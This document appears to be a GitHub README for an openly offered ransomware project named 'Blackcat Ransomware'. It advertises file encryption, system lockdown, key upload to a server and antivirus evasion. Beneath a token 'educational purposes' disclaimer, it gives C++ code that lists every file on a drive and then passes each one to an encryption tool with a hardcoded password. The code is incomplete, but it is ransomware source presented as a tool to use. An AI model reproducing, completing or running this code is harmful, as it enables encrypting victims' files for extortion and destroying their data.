 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logon.png" alt="logo">

# Blackcat Ransomware

Blackcat Ransomware is open source Crypto-Locker. Blackcat Ransomware is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.

## Features

1. Strong AES Encryption. (Unbreakable)
2. Lockdown System Functionailty.
3. Multi-Thread Encryption.
4. Undetectable (60+ World Most Popular AntiVirus Bypass).
5. Powerful Web Admin Interface

## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use. I use Boost C++ libraries to get all files list. Please first setup Boost libraries to compile program.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>

using namespace std;

fstream out_file("data.txt", ios::out);

int main(int argc, char* argv[]) {
	boost::system::error_code dir_error;

	for (boost::filesystem::recursive_directory_iterator end, dir("C:\\Ajay\\", dir_error); dir != end; dir.increment(dir_error)) {
		if (dir_error.value()) {
			cerr << "Error accessing file: " << dir_error.message() << endl;
		}
		else {
			cout << dir->path() << endl;
			out_file << dir->path() << "\n";
		}
	}
	out_file.close();
	system("pause");
	
```

## Step 2 (Encrypt files)

Here firstly I get every file path from "data.txt" line by line and send to this crypy tool with type encryption and password. you can also embed all this program in upper loop for getting path and encrypting data recursively.

```
out_file.open("data.txt", ios::in);
	string line;
	while (out_file.good()) {
		getline(out_file, line);
		cout << line << endl;
		std::string cmmd = "crpt.exe -e -p 4321 ";
		cmmd += line;
		system(cmmd.c_str());
	}
```

# Currently in Development....Happy Hacking:)

## Donate
If you appreciate that, please consider donating to the Developer.

[![Donate](https://cdn.pbrd.co/images/HyQFKkP.png)](https://www.paypal.me/ajayrandhawa) 

